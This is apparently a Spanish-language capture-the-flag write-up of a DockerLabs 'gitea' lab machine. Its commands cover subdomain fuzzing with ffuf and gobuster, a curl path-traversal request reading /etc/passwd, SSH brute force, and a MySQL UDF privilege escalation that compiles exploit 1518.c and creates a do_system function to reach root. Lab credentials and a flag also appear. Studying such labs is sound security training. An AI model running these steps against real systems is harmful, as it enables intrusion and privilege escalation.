 nmap: 22, 80, 3000

![image](https://github.com/user-attachments/assets/19f5d5f2-4a90-4310-bbd4-14c4d074484e)

---

nos vamos a la pagina del puerto 80 y 3000

![image](https://github.com/user-attachments/assets/283cdfa3-b5ec-4a3c-991f-3de987903851)

![image](https://github.com/user-attachments/assets/cac418c6-5aa8-469d-b685-ca99582d7e5c)

en la pagina no hay mucho mas que información y en la pagina del puerto 3000 hay una versión pero no hay exploit de esa versión, solo de la 1.22.4 que es la versión anterior.
en el código fuente hay unos puntos importantes

![image](https://github.com/user-attachments/assets/ce7b0baa-b7cc-4ba5-bb70-d78531b01a98)

primero un URL que si la ingresamos a hosts nos enviara otra vez a la pagina del puerto 3000, y abajo hay un  "csrftoken"  con un código, pero la verdad que el código da unos números pero probablemente hay un login. 
ahora probando otra vez con la URL que encontramos en el código fuente la vamos modificando, entonces ingresamos un "gitea.dl" y veremos que tenemos un login

![image](https://github.com/user-attachments/assets/43f97f17-701f-4f35-bda2-c011ac2f4b13)

como vemos en los login da algunas credenciales pero no funcionan pero por si acaso la vamos a guardar. 

     admin@gitea.com 
    PassAdmin123-

ahora haremos un FFUF

     ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://gitea.dl -H "Host: FUZZ.gitea.dl" -fs 13615 

![image](https://github.com/user-attachments/assets/2e7dbd84-4137-443e-a09d-0ee7009e42f5)

nos da "dev" lo agregamos al hosts y nos da esta pagina

![image](https://github.com/user-attachments/assets/05956581-0749-4020-8a5f-b92ce366fd05)

como no tenemos mucho hacemos un gobuster para descubrir mas si es que tiene mas

     gobuster dir -u http://dev.gitea.dl/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64


![image](https://github.com/user-attachments/assets/80e2421b-114a-4f26-9292-8999e4a9289f)

nos dio uno llamativo que es "search" 

![image](https://github.com/user-attachments/assets/a2bc71b8-baca-4f8c-90ad-9ff1cb6689f8)

probamos pero no da nada y como vimos al principio en el código fuente da una URL que contiene este usuario creo yo, lo añadimos al hosts

![image](https://github.com/user-attachments/assets/40987377-ac21-483e-9b77-f593b40f2a2c)

obtenemos esta pagina pero al final de la pagina da un nombre que podría ser un usuario, pero no tiene muchas cosas mas, así que le seguimos buscando y haciendo otro FFUF

![image](https://github.com/user-attachments/assets/672314d3-5037-410a-a274-971939e3554e)

    ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://s3cr3tdir.dev.gitea.dl -H "Host: FUZZ.s3cr3tdir.dev.gitea.dl" -fs 13615 

ahora hacemos lo mismo pero agregamos el "s3cr3tdir"

![image](https://github.com/user-attachments/assets/da39d60e-1ad4-425a-86db-9d23d4a835cc)

y como vemos tenemos lo mismo que vimos en el primer codigo que es el URL exactamente igual. 

![image](https://github.com/user-attachments/assets/e4ff1364-7c5e-4684-ab51-c989c3690ff7)

pero nos vamos a logear ahora para ver que hay. 

![image](https://github.com/user-attachments/assets/e2e4b9c1-e70a-4f24-83cb-7967c4ebb5f1)

nos iremos a explore y veremos esos 3 repositorios  y el que contiene un código es el 
myapp >> app.py

![[dockerlabs/medio/gitea/test15.png]]

y en esta linea tiene una vulnerabilidad

![[dockerlabs/medio/gitea/test16.png]]

a esa vulnerabilidad se le puede realizar un "path traversal" en la pagina principal o sea gitea.dl, así que podemos descargar archivos con esa vulnerabilidad o lograr visualizar 

lanzamos 

     curl "http://gitea.dl/download?filename=../../../../../etc/passwd"

![[dockerlabs/medio/gitea/test17.png]]

y vemos que nos entrega la información que esperamos, buscamos en los otros archivos otras funciones o códigos y encontramos esto

![[dockerlabs/medio/gitea/test18.png]]

probamos lo mismo pero con el código de info.txt

![[dockerlabs/medio/gitea/test19.png]]

nos da un error así que probamos, pero nos dice que hay un archivo de la información en /opt así que probamos suerte

![[dockerlabs/medio/gitea/test20.png]]

se logra la magia y tenemos usuarios y contraseñas como textos. pero no creo que esos son los usuarios reales, así que vamos hacer un ataque de fuerza bruta. 

creamos una carpeta con las contraseñas y hacemos una fuerza bruta con el usuario "designer" que es el usuario del git donde están los códigos. 

![[dockerlabs/medio/gitea/test21.png]]

obtenemos la contraseña de "ssh"

![[dockerlabs/medio/gitea/test22.png]]

ingresamos con las credenciales y tenemos la flag de user

     4683f3b0c2f083bb9588370c0f8ab284

![[dockerlabs/medio/gitea/test23.png]]

como se ve tenemos un puerto abierto de forma local "127.0.0.1:3306"  y 3306 funciona con mysql y tenemos credenciales de un login así que probamos entrar a la base de datos con las credenciales que nos dio el login

      admin@gitea.com 
    PassAdmin123-

     mysql -u admin -pPassAdmin123-


![[dockerlabs/medio/gitea/test24.png]]

tenemos acceso a la base de datos, vamos a realizar esta escalada: https://docs.databricks.com/gcp/en/udf/ (User-Defined Functions) UDF  lo que es pocas palabras

     técnica para escalar privilegios que consiste en cargar una librería compartida maliciosa con el fin de ejecutar código externo y definido por nosotros a nivel de sistema

entonces comenzamos con

    SHOW VARIABLES LIKE '%plugin_dir%';

![[dockerlabs/medio/gitea/test25.png]]

     SHOW VARIABLES LIKE '%secure_file_priv%';

![[dockerlabs/medio/gitea/test26.png]]

![[dockerlabs/medio/gitea/test27.png]]

ahora buscamos una vulnerabilidad o exploit basado en este ataque 

![[dockerlabs/medio/gitea/test28.png]]

nos sirve el primero así que lo tomamos

![[dockerlabs/medio/gitea/test29.png]]

dentro de se exploit contiene un código que intenta cargar códigos o archivos en "system()" así que vamos a pasarlo a la maquina victima

![[dockerlabs/medio/gitea/test30.png]]

ahora lanzamos estos comandos

    gcc -g -c 1518.c
      gcc -g -shared -Wl,-soname,exploit_udf.so -o exploit_udf.so 1518.o -lc

![[dockerlabs/medio/gitea/test31.png]]

tendremos los 3 documentos ahora movemos el exploit a plugins para que la cargue

     mv exploit_udf.so /usr/lib/mysql/plugin/

ahora nos vamos a la base de datos y nos conectamos creamos la función que haga referencia a la librería que agregamos o sea el exploit 

    CREATE FUNCTION do_system RETURNS STRING SONAME 'exploit_udf.so';

![[dockerlabs/medio/gitea/test32.png]]

entonces el exploit cargado podemos ejecutar comando a nivel sistema, podemos por ejemplo cargar una reverse shell hacia nuestro puerto para conectarnos directo a root 

![[dockerlabs/medio/gitea/root.png]]

somos root! 
